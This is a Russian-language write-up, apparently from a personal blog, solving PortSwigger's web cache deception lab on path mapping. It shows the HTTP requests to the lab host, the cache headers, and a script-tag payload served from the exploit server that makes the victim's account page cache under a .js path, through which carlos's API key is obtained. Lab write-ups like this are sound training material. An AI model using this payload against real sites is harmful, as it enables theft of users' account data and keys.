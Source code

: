 ```yaml
---
title: "Exploiting path mapping for web cache deception"
date: 2025-07-18
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-path-mapping-discrepancies/web-cache-deception/lab-wcd-exploiting-path-mapping"
classes: wide
---
```


Для прохождения лабы нужно найти `API`-ключи пользователя `carlos` с помощью **Web cache deception**. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

```
https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/
```

## Solution

Для начала зайду в свой аккаунт:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/1.png){: height="200" .align-center}

Аккаунт находится на ендпоинте `/my-account`. Попробую добавить рандомный путь `/foo`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/2.png){: height="200" .align-center}

Ответ остался тем же. Перейду в `Burp Suite`, чтобы посмотреть на заголовки запросов:

```http
GET /my-account/foo HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить расширение `.js`, чтобы проверить, будет ли кэширован ответ:

```http
GET /my-account/foo.js HTTP/2
Host: 0a4a00610336ce2980e930f900af00b2.web-security-academy.net
Cookie: session=cpyLVwGogGdTEue1LibfmS6nckRPPupq
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: traile
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3824

...

```

В ответе можно увидеть поля `X-Cache: miss` и `Age: 0`. Это означает, что мой запрос был кэширован. Теперь создам эксплойт, который отправим жертве. Для этого мне нужно перейти на выданный `Port Swigger Academy` эксплойт сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/3.png){: height="200" .align-center}

А теперь подробнее. Данная ссылка будет отправлена жертве:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/4.png){: height="200" .align-center}

Тут можно увидеть имя файла, котрый будет скачан жертвой. И то, какой ответ на данный запрос будет получен. В данном примере я решил отправить `.html` файл, в котором содержится `js` скрипт `<script src='https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js'></script>`. Путь файла заканчивается на `/secondtry.js`. На данный запрос жертва получит страницу своего аккаунта, которая будет кэширована. А значит, я смогу получить доступ к информации из аккаунта. По имени файла `secondtry.js` можно понять, что получилось у меня это не с первой попытки...

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/5.png){: height="200" .align-center}

Итак. Клацаю кнопку ~~взломать все и вся~~ `Deliver exploit to victim`. Далее пробую перейти по ссылке `https://0a4a00610336ce2980e930f900af00b2.web-security-academy.net/my-account/secondtry.js`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/6.png){: height="200" .align-center}

Пуф, и `API`-ключ получен. Сдам его... верификатору.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_web_cache/IMG_Exploiting_path_mapping_for_web_cache_deception/7.png){: height="200" .align-center}